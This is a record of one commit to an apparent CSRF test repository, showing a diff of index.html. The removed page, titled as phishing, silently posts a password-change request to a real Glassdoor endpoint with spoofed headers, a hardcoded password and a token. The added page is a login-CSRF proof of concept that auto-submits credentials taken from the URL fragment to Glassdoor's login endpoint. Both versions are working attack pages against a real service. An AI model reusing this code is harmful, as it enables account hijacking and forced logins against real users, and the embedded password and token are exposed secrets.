

Before and after one commit to jonataMenezes/csrf-test, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-648 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,30 +1,29 @@
-<!DOCTYPE html>
-<html lang="en">
-<head>
-    <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Alteração de Senha - Phishing</title>
-</head>
+<!doctype html>
+<meta charset="utf-8">
+<title>PoC Login CSRF (urlencoded)</title>
 <body>
-    <h1>Alteração de Senha Realizada com Sucesso</h1>
-    <p>Aguarde enquanto processamos sua solicitação...</p>
-    <script>
-        // A requisição maliciosa é disparada automaticamente quando a página é carregada
-        var xhr = new XMLHttpRequest();
-        xhr.open("POST", "https://www.glassdoor.com.br/member/account/settings_changePassword.htm", true);  // URL do endpoint da alteração de senha
-        xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded; charset=UTF-8");
-        xhr.setRequestHeader("Origin", "https://www.maliciososite.com");  // Manipulando o cabeçalho Origin
-        xhr.setRequestHeader("Referer", "https://www.maliciososite.com");  // Manipulando o Referer
-        xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");  // Cabeçalho comum para requisições AJAX
+<script>
+  // Lê as credenciais do fragmento da URL: #u=<email>&p=<senha>
+  const params = new URLSearchParams(location.hash.slice(1));
+  const u = params.get('u') || '';
+  const p = params.get('p') || '';
+  // Monta um <form> application/x-www-form-urlencoded
+  const f = document.createElement('form');
+  f.action = 'https://www.glassdoor.com.br/auth/login/username-password';
+  f.method = 'POST';
 
-        // Definindo os dados da requisição para alteração de senha
-        var data = "currentPassword=CpD*12341990241436584&newPassword=passwordaltered&newPasswordConfirmation=passwordaltered&gdToken=VNTxonYmGiaAn3mThwwgcg%3AGdIH7klM0EnwKuAOuBliFgzjP2CXUjHknvgpZDq7-oFsJBU0LOvlKJt47EFBk5wyLmf5yF6GIqnGVpSyVgBYCQ%3AwRy2JnnIyKOW5yZ0148oD9IO9Tst5ZAxBSk1KGlb7Dc";  // Dados da requisição maliciosa
+  const iU = document.createElement('input'); iU.name = 'username'; iU.value = u;
+  const iP = document.createElement('input'); iP.name = 'password'; iP.value = p;
+  const iR = document.createElement('input'); iR.name = 'postLoginUrl'; iR.value = '';
 
-        // Enviar a requisição para a alteração de senha
-        xhr.send(data);
+  f.appendChild(iU); f.appendChild(iP); f.appendChild(iR);
+  document.body.appendChild(f);
 
-        // Log para monitorar o envio
-        console.log("Alteração de senha enviada em segundo plano!");
-    </script>
+  // Submete automaticamente
+  if (u && p) {
+    f.submit();
+  } else {
+    document.write('<p>Adicione <code>#u=&lt;email&gt;&amp;p=&lt;senha&gt;</code> à URL e recarregue.</p>');
+  }
+</script>
 </body>
-</html>
```
